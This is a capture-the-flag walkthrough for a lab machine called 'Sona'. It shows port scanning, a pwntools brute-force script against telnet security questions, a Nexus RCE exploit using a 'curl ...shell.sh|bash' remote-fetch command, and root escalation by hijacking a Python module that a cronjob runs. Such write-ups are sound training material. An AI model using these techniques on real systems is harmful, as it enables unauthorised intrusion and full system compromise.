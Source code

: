 # Sona

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.159
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 11:22 +08
Nmap scan report for 192.168.240.159
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
23/tcp   open  telnet
8081/tcp open  blackice-icecap
```

### Telnet Creds --> Nexus RCE

Port 8081 was hosting a vulnerable version of Nexus Repository Manager:

<figure><img src="../../../.gitbook/assets/image (3019).png" alt=""><figcaption></figcaption></figure>

This version has RCE exploits, but we need credentials.

```
$ searchsploit nexus 3.21
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- --------------------------------
```

Weak credentials like `admin:admin` or `nexus:nexus` didn't work. In this case, let's check out out Telnet on port 23.&#x20;

```
$ nc -vn 192.168.240.159 23
(UNKNOWN) [192.168.240.159] 23 (telnet) open
====================
NEXUS BACKUP MANAGER
====================
ANSONE  Answer question one
ANSTWO  Answer question two
BACKUP  Perform backup
EXIT   Exit
HELP   Show help
HINT   Show hints
RECOVER Recover admin password
RESTORE Restore backup
```

We can somehow recover the password from this. We can interact with this application a bit:

```
HINT
1.What is your zodiac sign?
2.What is your favorite color?
RECOVER
Please Enter Password
RECOVER <password>
ANSONE
Please Enter Answer
ANSONE <answer>
```

I wasn't sure how to get this, so let's use the ANSONE and ANSTWO options to check our options. I made a list of colours and zodiac signs:

{% embed url="https://github.com/imsky/wordlists/blob/master/adjectives/colors.txt" %}

```
capricorn
aquarius
aries
libra
scorpio
virgo
taurus
pisces
gemini
leo
cancer
sagittarius
```

Afterwards, we can create a Python script to brute force out the answer based on this.&#x20;

```python
from pwn import *

def interact(word):
	r = remote('192.168.240.159', 23)
	for i in range(11):
		r.recvline()
	r.sendline(b'ANSONE')
	r.recvline()
	r.recvline()
	r.sendline(word.encode())
	response = r.recvline()
	if b'Incorrect' in response:
		r.close()
	else:
		log.info("Correct!")
		log.info(f"Password is {word}")
		r.close()
		
def main():
	with open ('colours.txt', 'r') as file:
		for line in file:
			interact(line)

main()
```

This would slowly brute force the first answer, which is `black`:

```
$ python3 brute.py
<TRUNCATED>
[+] Opening connection to 192.168.240.159 on port 23: Done
[*] Correct!
[*] Password is black
[*] Closed connection to 192.168.240.159 port 23
```

Now we can do the same for the zodiac signs and ANSTWO.&#x20;

```
[+] Opening connection to 192.168.240.159 on port 23: Done
[*] Correct!
[*] Password is leo
[*] Closed connection to 192.168.240.159 port 23
```

So the correct answers are 'black' and 'leo'. We can create a wordlist with these words, which is just:

```
black
leo
leoblack
blackleo
```

`blackleo` is the correct password:

```
RECOVER
Please Enter Password
RECOVER <password>
blackleo
3e409e89-514c-4f9f-955e-dfa5c4083518
```

Using this, we can run the exploit with these parameters:

```python
URL='http://192.168.240.159:8081'
CMD='curl 192.168.45.216/shell.sh|bash'
USERNAME='admin'
PASSWORD='3e409e89-514c-4f9f-955e-dfa5c4083518'
```

I had a lot of trouble getting a shell on this machine for some reason. Eventually, I just decided to use `msfconsole` to exploit this.&#x20;

<figure><img src="../../../.gitbook/assets/image (3229).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Python Module Hijack

I ran a `linpeas.sh` scan on the machine and found an interesting permission set:

```
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
<TRUNCATED>
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

We can write to `base64.py`, which is the module being used here. I ran `pspy64` as well to see if this file was being executed in anyway.&#x20;

```
2023/07/07 04:19:01 CMD: UID=0    PID=58840  | python3 /home/sona/logcrypt.py 
```

This file was being run every minute:

```
nexus@sona:/etc/cron.d$ cat logcrypt
cat logcrypt
* * * * * root python3 /home/sona/logcrypt.py
```

Within the `/tmp` directory, there was a `log.crypt` file that contained a huge `base64` encoded file:

{% code overflow="wrap" %}
```
nexus@sona:/tmp$ cat log.crypt
cat log.crypt
SnVsICA3IDAzOjI3OjQ1IHNvbmEgVkdBdXRoWzc4OF06IHZtdG9vbHNkOiBVc2VybmFtZSBhbmQgcGFzc3dvcmQgc3VjY2Vzc2Z1bGx5IHZhbGlkYXRlZCBmb3IgJ3Jvb3QnLgpKdWwgIDcgMDM6Mjc6NDYgc29uYSBWR0F1dGhbNzg4XTogbWVzc2FnZSByZXBlYXRlZCAyIHRpbWVzOiBbIHZtdG9vbHNkOiBVc2VybmFtZSBhbmQgcGFzc3dvcmQgc3VjY2Vzc2Z1bGx5IHZhbGlkYXRlZCBmb3IgJ3Jvb3QnLl0KSnVsICA3IDAzOjI3OjUxIHNvbmEgVkdBdXRoWzc4
<TRUNCATED>
```
{% endcode %}

The file was also owned by `root`, meaning that this likely being generated by the `logcrypt` cronjob. I just echoed in `import os;os.system("chmod u+s /bin/bash")` within the `base64.py` file and it worked!

```
nexus@sona:/usr/lib/python3.8$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

<figure><img src="../../../.gitbook/assets/image (1619).png" alt=""><figcaption></figcaption></figure>
